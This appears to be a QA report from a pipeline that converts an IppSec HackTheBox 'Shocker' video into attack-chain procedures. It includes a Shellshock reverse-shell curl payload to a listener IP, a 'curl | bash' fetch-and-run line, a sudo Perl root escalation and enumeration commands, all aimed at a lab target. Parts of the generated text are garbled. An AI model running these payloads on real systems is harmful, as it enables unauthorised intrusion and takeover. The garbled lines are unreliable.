

❯ cat youtube-final-comparison-v2.md
# Source vs Generated Comparison

Generated: 2026-05-25T05:36:49.388Z

Summary: 0 blocker(s), 2 warning(s).

This report is intentionally capped. It shows excerpts and counts, not full bodies or raw asset JSON.

## qa-suite-youtube-shocker

- Source ID: `fc6ea808-e4dd-4c2e-8206-4667db8376f5`
- Type: `youtube`
- Status: `completed`
- Current phase: `complete`
- Discovery: `acquired`
- Segments: selected 1/1, complete 1/1
- Assets: fetched 1/1, failed 0

### Verdict

**PASS**: 2 warning(s).

| Severity | Type | Scope | Message |
| --- | --- | --- | --- |
| warning | generated_chain_underrepresents_source_steps | attack_chain: qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy | Source extraction has 9 step(s), but the generated chain has 4; review for collapsed or missing attack flow. |
| warning | generated_content_underuses_source_commands | attack_chain: qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy | Expected 7 source-backed command fence(s), but generated content has 6. |

### Documents

| Title | Raw chars | Source URL / repo path |
| --- | ---: | --- |
| Group: Repository / Ibltdguhgfy | 21037 |  |
| Group: Repository / Ibltdguhgfy | 19875 |  |

#### Source Excerpt: Group: Repository / Ibltdguhgfy

```markdown
# HackTheBox - Shocker - HackTheBox - Shocker

# HackTheBox - Shocker

**Author:** IppSec
**Channel:** https://www.youtube.com/@ippsec
**Source:** https://www.youtube.com/watch?v=IBlTdguhgfY
**Video ID:** IBlTdguhgfY

---

# HackTheBox - Shocker - Embed

## Embed

<iframe width="200" height="113" src="https://www.youtube.com/embed/IBlTdguhgfY?feature=oembed" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen title="HackTheBox - Shocker"></iframe>

---

# HackTheBox - Shocker - Transcript

## Transcript

[00:00] what's going on YouTube this is epic I'm
[00:02] gonna be doing shocker from half the box
[00:03] I know this is the easy box we should
[00:06] begin the hard boxes starting next week
[00:07] again but that being said women do a lot
[00:10] of cool things this video because I
[00:11] enjoy this box first off we're gonna get
[00:14] the Ubuntu version based upon the Apache
[00:17] header like is it running trustees any
[00:19] old zesty artful Bionic I don't know but
[00:22] the Apache header should be able to tell
[00:23] us that then we're gonna do a lot of
[00:25] debugging on the end map shellshock
[00:27] script because it doesn't work as
[00:29] advertised all the time so we're gonna
[00:30] find out why fix it and learn a little
[00:33] bit of nmap scripting then we'll just
[00:35] pop the box and call it a day so let's
[00:38] jump in so let's do the end map so a map
[00:42] - SC for default scripts as V enumerate
[00:45] versions Oh a output all formats and
[00:49] I've graded the directory and mapped
[00:50] keep these n filename will be initial
[00:53] and then the IP address of shocker which
[00:56] is 10 10 10 56 al
...[truncated 19237 chars]
```

#### Source Excerpt: Group: Repository / Ibltdguhgfy

```markdown
# HackTheBox - Shocker - HackTheBox - Shocker

# HackTheBox - Shocker

**Author:** IppSec
**Channel:** https://www.youtube.com/@ippsec
**Source:** https://www.youtube.com/watch?v=IBlTdguhgfY
**Video ID:** IBlTdguhgfY

---

# HackTheBox - Shocker - Embed

## Embed

<iframe width="200" height="113" src="https://www.youtube.com/embed/IBlTdguhgfY?feature=oembed" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen title="HackTheBox - Shocker"></iframe>

---

# HackTheBox - Shocker - Transcript

## Transcript

[00:00] what's going on YouTube this is epic I'm
[00:02] gonna be doing shocker from half the box
[00:03] I know this is the easy box we should
[00:06] begin the hard boxes starting next week
[00:07] again but that being said women do a lot
[00:10] of cool things this video because I
[00:11] enjoy this box first off we're gonna get
[00:14] the Ubuntu version based upon the Apache
[00:17] header like is it running trustees any
[00:19] old zesty artful Bionic I don't know but
[00:22] the Apache header should be able to tell
[00:23] us that then we're gonna do a lot of
[00:25] debugging on the end map shellshock
[00:27] script because it doesn't work as
[00:29] advertised all the time so we're gonna
[00:30] find out why fix it and learn a little
[00:33] bit of nmap scripting then we'll just
[00:35] pop the box and call it a day so let's
[00:38] jump in so let's do the end map so a map
[00:42] - SC for default scripts as V enumerate
[00:45] versions Oh a output all formats and
[00:49] I've graded the directory and mapped
[00:50] keep these n filename will be initial
[00:53] and then the IP address of shocker which
[00:56] is 10 10 10 56 al
...[truncated 18075 chars]
```

### Raw Extraction Summary

| Document | Steps | Commands | Code blocks | Images | Narrative |
| --- | ---: | ---: | ---: | ---: | --- |
| Group: Repository / Ibltdguhgfy | 9 | 7 | 2 | 0 | The overall attack exploited a Shellshock vulnerability in a CGI Bash script on an Ubuntu web server. The vulnerability was discovered by enumerating the server, identifying the CGI script user.sh, and testing it with an ...[truncated 372 chars] |
| Group: Repository / Ibltdguhgfy | 6 | 7 | 0 | 0 | The attacker enumerates the target system to identify its Ubuntu version and services, focusing on an Apache server and a CGI script potentially vulnerable to Shellshock. After confirming the vulnerability by fixing and ...[truncated 171 chars] |

#### Extraction Evidence: Group: Repository / Ibltdguhgfy

Commands:
```json
[
  {
    "command": "nmap -sC -sV -oA initial 10.10.10.56",
    "context": "Initial enumeration of the target",
    "parameters": {
      "-oA": "Output in all formats (nmap, xml, grepable)",
      "-sC": "Run default scripts",
      "-sV": "Service/version detection"
    },
    "description": "Perform default script scan and version detection on target, outputting results in all formats with prefix 'initial'",
    "expected_output": "List of open ports and service versions"
  },
  {
    "command": "gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt -x sh,pl",
    "context": "Discover CGI scripts on the web server",
    "parameters": {
      "-u": "Target URL",
      "-w": "Wordlist to use",
      "-x": "File extensions to append"
    },
    "description": "Brute force directories and files with extensions .sh and .pl on the web server",
    "expected_output": "Discovered directories and files including /cgi-bin/user.sh"
  },
  {
    "command": "nmap --script=http-shellshock --script-args uri=/cgi-bin/user.sh -p 80 10.10.10.56",
    "context": "Test for Shellshock vulnerability",
    "parameters": {
      "-p": "Target port",
      "--script": "Nmap script to run",
      "--script-args": "Arguments for the script, specifying URI"
    },
    "description": "Run Nmap NSE script to detect Shellshock vulnerability on user.sh CGI script",
    "expected_output": "Vulnerability detection result (initially failed)"
  },
  {
    "command": "nmap --script=http-shellshock --script-args uri=/cgi-bin/user.sh,cmd='echo; /bin/ls' -p 80 10.10.10.56",
    "context": "Verify successful command execution via Shellshock",
    "parameters": {
      "-p": "Target port",
      "cmd": "Command to execute on target",
      "uri": "Target CGI script path"
    },
    "des
...[truncated 1040 chars]
```

Code:
```json
[
  {
    "code": "-- Original script had a header line without a key causing malformed HTTP request\n  -- Commented out the problematic header line to fix the request\n  -- Added 'echo;' before injected command to ensure blank line between headers and body\n\n  -- Pseudocode snippet from script:\n  -- if command then\n  --   payload = \"() { :; }; echo; \" .. command\n  -- else\n  --   payload = \"() { :; }; echo; \" .. random_string\n  -- end\n\n  -- Removed extra headers that caused bad requests\n  -- This fix allows the script to successfully detect and exploit Shellshock on the target",
    "name": "Fixed Nmap Shellshock Script Payload Injection",
    "purpose": "Modification of the Nmap NSE http-shellshock script to fix malformed HTTP headers and enable reliable command injection",
    "language": "lua"
  },
  {
    "code": "# HackTheBox - Shocker\n\n**Author:** IppSec\n**Channel:** https://www.youtube.com/@ippsec\n**Source:** https://www.youtube.com/watch?v=IBlTdguhgfY\n**Video ID:** IBlTdguhgfY\n\n## Embed\n\n<iframe width=\"200\" height=\"113\" src=\"https://www.youtube.com/embed/IBlTdguhgfY?feature=oembed\" frameborder=\"0\" allow=\"accelerometer; autoplay; clipboard-writ
...[truncated 1006 chars]
```

#### Extraction Evidence: Group: Repository / Ibltdguhgfy

Commands:
```json
[
  {
    "command": "nmap -sC -sV -oA initial 10.10.10.56",
    "context": "Used for initial enumeration of the target system.",
    "parameters": {
      "-oA": "Output in all formats (nmap, xml, grepable)",
      "-sC": "Run default scripts",
      "-sV": "Service/version detection"
    },
    "description": "Performs a scan using default scripts and version detection, outputting results in all formats with the base name 'initial'."
  },
  {
    "command": "gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 200,403",
    "context": "Used to discover hidden or restricted directories on the web server.",
    "parameters": {
      "-s": "Status codes to include in results",
      "-u": "Target URL",
      "-w": "Wordlist file"
    },
    "description": "Brute forces directories on the target web server, including those that return HTTP 403 Forbidden status."
  },
  {
    "command": "nmap --script=shellshock --script-args uri=/cgi-bin/user.sh -p 80 10.10.10.56",
    "context": "Used to test if the CGI script is vulnerable to Shellshock.",
    "parameters": {
      "-p 80": "Scan port 80",
      "--script=shellshock": "Run Shellshock detection script",
      "--script-args uri=/cgi-bin/user.sh": "Specify the CGI script URI"
    },
    "description": "Runs the Shellshock NSE script against the specified URI on port 80 to detect Shellshock vulnerability."
  },
  {
    "command": "python3 -m http.server 8083",
    "context": "Used to host reverse shell scripts or payloads for transfer to the target.",
    "parameters": {
      "8083": "Port number"
    },
    "description": "Starts a simple HTTP server on port 8083 to serve files."
  },
  {
    "command": "curl http://10.10.10.56:8083/user.sh | bash",
    "context": "Used on the target to execute th
...[truncated 627 chars]
```

Code:
```json
[]
```

### Generated Content

| Type | Name | Status | Version | Body chars | Code refs | Image refs | Fidelity | Instruction |
| --- | --- | --- | --- | ---: | ---: | ---: | ---: | ---: |
| attack_chain | qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy | pending | v1 | 6515 | 0 | 0 | 0.920 | 0.850 |
| procedure | Enumerated Open Ports And Services On The Target | pending | v1 | 1151 | 0 | 0 | 1.000 | 0.900 |
| procedure | Obtained A Reverse Shell On The Target Machine | pending | v1 | 1784 | 0 | 0 | 1.000 | 0.650 |
| procedure | Discovered CGI Directory And User.sh Script Via Directory Brute Forcing | pending | v1 | 1257 | 0 | 0 | 0.667 | 0.900 |
| procedure | Debugged And Fixed Nmap Shellshock Script To Properly Inject Payload | pending | v1 | 1099 | 0 | 0 | 1.000 | 0.900 |
| procedure | Escalated Privileges To Root Using Sudo Permissions On Perl | pending | v1 | 1094 | 0 | 0 | 0.667 | 0.900 |
| procedure | Attempted To Detect Shellshock Vulnerability Using Nmap NSE Script | pending | v1 | 1319 | 0 | 0 | 0.667 | 0.900 |
| procedure | Tested User.sh Script And Confirmed It Executes Bash Commands | pending | v1 | 906 | 0 | 0 | 1.000 | 0.900 |

#### Generated Excerpt: attack_chain - qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy

```markdown
# qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy

## Overview

Group: Repository / Ibltdguhgfy tradecraft in this slice centers on weaponized document delivery and CGI request exploitation, using only the source-backed actions, artifacts, and validation signals preserved in the source material. The lab path here lands on linux systems.
The write-up stays tight on the actual operator slice: action, result, validation, and handoff without padding the narrative past what the evidence supports.

## Setup

### Tools

- No specialized tooling is required beyond the evidence-backed procedures in this chain.

### Environment

- linux

### Prerequisites

- Prepare the source-backed asset types before execution: document
- Linux host: Prepare a linux staging system with the runtime, files, and tooling referenced by this procedure before executing the first step.

- Target environments: web application
- Enumerated open ports and services on the target
- Ran Nmap with default scripts and version detection on target IP 10.10.10.56, identifying open ports 80 and 22 and service versions including OpenSSH 7.2p2 and Apache 2.4.18
- Target platforms: linux

## Attack Flow



## Chain Steps

### Step 1: Initial Access

**Goal**: Establish the initial foothold required to begin the Group: Repository / Ibltdguhgfy chain.

**Procedure Links**: [[procedures/Enumerated-Open-Ports-And-Services-On-The-Target]]

- Enumerated open ports and services on the target.
- Run [[procedures/Enumerated-Open-Ports-And-Services-On-The-Target]]: Run Nmap Default Scripts and Version Detection on Target. Enumerate open ports and detect service versi
...[truncated 4714 chars]
```

#### Generated Excerpt: procedure - Enumerated Open Ports And Services On The Target

```markdown
# Enumerated Open Ports And Services On The Target

Run Nmap with default scripts and version detection against 10.10.10.56 to identify open ports and service versions.

## Steps

### Step 1: Run Nmap Default Scripts and Version Detection on Target

- Actor: operator
- Where: operator host terminal
- Touch: target IP 10.10.10.56

- On operator host terminal on the operator workstation, run `nmap -sC -sV -oA initial 10.10.10.56`.
- Enumerated open ports and services on the target Ran Nmap with default scripts and version detection on target IP 10.10.10.56, identifying open ports 80 and 22 and service versions including OpenSSH 7.2p2 and Apache 2.4.18

Run:

```bash
nmap -sC -sV -oA initial 10.10.10.56
```

- Enumerate open ports and detect service versions on the target

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Preserve Nmap scan results and identified service versions for follow-on exploitation steps

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Obtained A Reverse Shell On The Target Machine

```markdown
# Obtained A Reverse Shell On The Target Machine

Activate a reverse shell on the target Ubuntu web server by exploiting the Shellshock vulnerability in the CGI Bash script user.sh.

## Steps

### Step 1: Set up a Netcat listener on the operator host

- Actor: operator
- Where: operator host terminal
- Touch: operator host

- On bash on the operator workstation, run `nc -lvnp 8082`.
- Obtained a reverse shell on the target machine Used a reverse shell payload via the shellshock vulnerability, setting up a listener on local machine and triggering the payload through the CGI script

Run:

```bash
nc -lvnp 8082
```

- Run this command from the operator-side context for this step.

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Listener ready to receive reverse shell connection

### Step 2: Trigger the reverse shell payload via the Shellshock vulnerability

- Actor: operator
- Where: operator host terminal
- Touch: target web server CGI script

- On bash on the operator workstation, run `curl http://10.10.10.56/cgi-bin/user.sh -H 'User-Agent: () { :.
- }.
- /bin/bash -i >& /dev/tcp/10.10.14.27/8082 0>&1'`.

Run:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.27/8082 0>&1'
```

- Run this command from the operator-side context for this step.

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Reverse shell connection established; interactive shell available on operator host

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Discovered CGI Directory And User.sh Script Via Directory Brute Forcing

```markdown
# Discovered CGI Directory And User.sh Script Via Directory Brute Forcing

Use GoBuster to brute force directories on the target web server.

## Steps

### Step 1: Discover CGI directory and user.sh script via directory brute forcing

- Actor: operator
- Where: operator host terminal
- Touch: target web server at http://10.10.10.56

- On operator host terminal on the operator workstation, run `gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt -x sh,pl`.
- Before you run it, make sure usr/share/wordlists/dirb/common.txt is available at the path referenced by the command.
- The command should target http://10.10.10.56 unless your lab uses the equivalent application URL at a different host or path.

Run:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt -x sh,pl
```

- Discover /cgi-bin/ directory and user.sh script via directory brute forcing

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Preserve access and artifacts for next phase privilege escalation

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Debugged And Fixed Nmap Shellshock Script To Properly Inject Payload

```markdown
# Debugged And Fixed Nmap Shellshock Script To Properly Inject Payload

Analyze and correct the Nmap NSE Shellshock script to fix malformed HTTP requests by commenting out problematic headers and adding a blank line to separate headers from the body, enabling proper payload injection and command execution

## Steps

### Step 1: Debug and fix Nmap Shellshock NSE script to properly inject payload

- Actor: operator
- Where: operator host terminal
- Touch: Nmap NSE Shellshock script

- Open the Nmap Shellshock NSE script in a text editor on the operator host.
- Locate and comment out the HTTP header lines that cause malformed requests.
- Insert an 'echo' command with a blank line to separate HTTP headers from the body, ensuring proper command injection

Verify:
- Step completed: Verify the expected state change for this step before proceeding.

Next: Confirm the script modification enables payload injection before proceeding to remote command execution steps

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Escalated Privileges To Root Using Sudo Permissions On Perl

```markdown
# Escalated Privileges To Root Using Sudo Permissions On Perl

Raise privileges to root by leveraging sudo permissions that allow running Perl as root without a password.

## Steps

### Step 1: Escalate to root shell using sudo Perl execution

- Actor: operator
- Where: operator host terminal
- Touch: target host

- On bash on the operator workstation, run `sudo /usr/bin/perl -e 'exec "/bin/bash";'`.
- Escalated privileges to root using sudo permissions on Perl Checked sudo permissions and found user could run Perl as root without password.
- used sudo to spawn a root shell via Perl command execution

Run:

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

- Run this command from the operator-side context for this step.

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Maintain root shell access on the operator host terminal for subsequent actions

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Attempted To Detect Shellshock Vulnerability Using Nmap NSE Script

```markdown
# Attempted To Detect Shellshock Vulnerability Using Nmap NSE Script

Ran the Nmap http-shellshock NSE script against the CGI Bash script user.sh on port 80 of target 10.10.10.56.

## Steps

### Step 1: Run Nmap Shellshock Detection Script Against user.sh

- Actor: operator
- Where: operator host terminal
- Touch: target web server 10.10.10.56 port 80

- On bash on the operator workstation, run `nmap --script=http-shellshock --script-args uri=/cgi-bin/user.sh -p 80 10.10.10.56`.
- Before you run it, make sure cgi-bin/user.sh is available at the path referenced by the command.
- Attempted to detect Shellshock vulnerability using Nmap NSE script Ran Nmap shellshock detection script against user.sh but initial attempts failed with bad requests and no vulnerability detected

Run:

```bash
nmap --script=http-shellshock --script-args uri=/cgi-bin/user.sh -p 80 10.10.10.56
```

- Run this command from the operator-side context for this step.

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Review Nmap output for error details and prepare to debug or modify the detection approach

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

#### Generated Excerpt: procedure - Tested User.sh Script And Confirmed It Executes Bash Commands

```markdown
# Tested User.sh Script And Confirmed It Executes Bash Commands

Access the user.sh CGI script on the target web server to confirm it executes bash commands by observing the script output in a browser

## Steps

### Step 1: Test user.sh script execution via browser

- Actor: operator
- Where: browser
- Touch: http://10.10.10.56/cgi-bin/user.sh
- Input: http://10.10.10.56/cgi-bin/user.sh

- Open a browser and navigate to the URL http://10.10.10.56/cgi-bin/user.sh to trigger execution of the user.sh CGI Bash script on the target web server.
- Observe the output displayed by the script in the browser

Verify:
- Step completed: Verify the expected state change for this step before proceeding.

Next: Preserve access and artifacts for subsequent privilege escalation steps

## Final Checks
- Source outcome visible: Confirm the source-backed state change is visible before handing this action forward.
```

### Source Action Ledger

| Candidate | Type | Status | Quality | Actions | Procedure Steps | Chain Phases | Required Commands | Required Code | Required Images | Gaps |
| --- | --- | --- | --- | ---: | ---: | ---: | ---: | ---: | ---: | ---: |
| 464b29f4-826d-49c2-8351-46e3dfc87246 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| 0b026b13-f3e5-48cd-84f0-b6921b2ddce2 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| 5844b265-96a3-47ab-a983-5237eb504cf0 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| e1a0fd02-f15f-40ad-b9dc-10db0d273538 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| 3fc4b26f-188b-4b69-a4a1-afb4049911e9 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| 8878d66a-93bf-443e-999d-659472db28ac | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| d680fdbe-0b74-4ec7-9410-1691026cf1e7 | procedure | ready | passed | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
| dc01c478-51c5-4670-b673-a27cbfce881b | procedure | ready | passed | 7 | 7 | 0 | 0 | 0 | 0 | 0 |

### Model-Prior Enrichment

Accepted enrichments: 0
Blocked claims: 0
Unresolved exact gaps: 0

| Candidate | Accepted | Blocked Claims | Unresolved Exact Gaps |
| --- | ---: | ---: | ---: |
| 464b29f4-826d-49c2-8351-46e3dfc87246 | 0 | 0 | 0 |
| 0b026b13-f3e5-48cd-84f0-b6921b2ddce2 | 0 | 0 | 0 |
| 5844b265-96a3-47ab-a983-5237eb504cf0 | 0 | 0 | 0 |
| e1a0fd02-f15f-40ad-b9dc-10db0d273538 | 0 | 0 | 0 |
| 3fc4b26f-188b-4b69-a4a1-afb4049911e9 | 0 | 0 | 0 |
| 8878d66a-93bf-443e-999d-659472db28ac | 0 | 0 | 0 |
| d680fdbe-0b74-4ec7-9410-1691026cf1e7 | 0 | 0 | 0 |
| dc01c478-51c5-4670-b673-a27cbfce881b | 0 | 0 | 0 |

### Assets

| Type | Status | Count |
| --- | --- | ---: |
| document | fetched | 1 |

| Type | Filename | Language | Text chars | Preview route | Vault ref/local path |
| --- | --- | --- | ---: | --- | --- |
| document | youtube_IBlTdguhgfY.md |  | 19366 | `/api/assets/2a4f9674-7117-47db-a30c-013ea07e13d9/file` |  |

### Chain Candidates

| Title | Status | Quality | Score | Standardized chars |
| --- | --- | --- | ---: | ---: |
| qa-suite-youtube-shocker: Group: Repository / Ibltdguhgfy | standardized | quality_passed | 0.920 | 6515 |

### HITL Interventions

_None._
